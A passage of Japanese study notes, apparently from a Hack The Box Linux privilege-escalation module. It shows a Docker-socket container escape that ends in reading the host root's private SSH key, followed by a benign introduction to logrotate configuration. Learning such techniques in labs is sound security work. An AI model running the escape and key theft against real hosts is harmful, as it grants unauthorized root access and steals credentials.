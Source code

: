 これに、ID 7ae3bcc818afを持つ新しい特権付きDockerコンテナにログインし、`/hostsystem`に移動できる
作成したコンテナにログインする
- そこから、再度プライベートSSHキーを取得して、rootとして、またはフォルダ内にプライベートSSHキーを持つシステム上の他のユーザーとしてログインできる
```shell-session
htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash


root@7ae3bcc818af:~# cat /hostsystem/root/.ssh/id_rsa

-----BEGIN RSA PRIVATE KEY-----
<SNIP>
```



## Logrotate(ログローテート)
- Linuxは大量のログファイルを生成するが、ハードディスクの容量が不足するのを防ぐために、logrotateと呼ばれるツールが、古いログのアーカイブまたは破棄を行なう
- logrotateには、これらのログファイルを管理するための多くの機能がある
	- ログファイルのサイズ
	- ログファイルの経過時間
	- これらの要因のいずれかに達した場合に実行されるアクション

ローテーション自体の機能は、ログファイルの名前を変更することにある
このツールは通常、cronを介して定期的に起動され、設定ファイル/etc/logrotate.confを介して制御される
このファイル内には、logrotateの機能を決定するグローバル設定が含まれる

logrotate の設定ファイルの内容を表示する
```sh
cat /etc/logrotate.conf
```

ログローテーションの状態ファイルの内容を表示する
```shell-session
sudo cat /var/lib/logrotate.status

> /var/log/samba/log.smbd" 2022-8-3
> /var/log/mysql/mysql.log" 2022-8-3
```

対応する構成ファイルは、/etc/logrotate.d/ディレクトリにある
/etc/logrotate.d/ ディレクトリの内容を表示する
```sh
ls /etc/logrotate.d/
```

/etc/logrotate.d/dpkg ファイルの内容を表示する
```sh
cat /etc/logrotate.d/dpkg

/var/log/dpkg.log { # /var/log/dpkg.log に対して以下の設定を適用
        monthly # 毎月ローテーション
        rotate 12 # 12世代まで保持
        compress # 圧縮
        delaycompress # 次のローテーション時に圧縮
        missingok  # ログファイルが存在しなくてもエラーを出さない
        notifempty # ログファイルが空の場合はローテーションしない
        create 644 root root # ローテーション後に新しいログファイルをroot:root 所有者で権限 644 で作成
}
```
